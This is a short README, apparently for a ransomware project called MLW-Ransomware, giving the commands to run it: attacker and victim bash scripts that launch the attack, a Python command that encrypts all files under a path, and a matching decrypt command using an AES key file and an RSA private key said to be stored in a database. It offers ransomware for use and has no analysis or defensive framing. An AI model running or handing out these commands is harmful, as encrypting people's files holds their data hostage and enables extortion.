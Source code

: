# MLW-Ransomware
## How it Works
Run attack:
```
/bin/bash Bash/bashAttacker.sh
/bin/bash Bash/bashVictim.sh
```


Encrypt files:
```
python upcrans.py --encrypt --path .
```

Decrypt files:
```
python upcrans.py --decrypt --AESkey KEY.txt --RSAkey KEYRSA.txt
```
Where AESkey is the path generated when files are encrypted and RSAkey is the private key of RSA that is stored in BBDD.



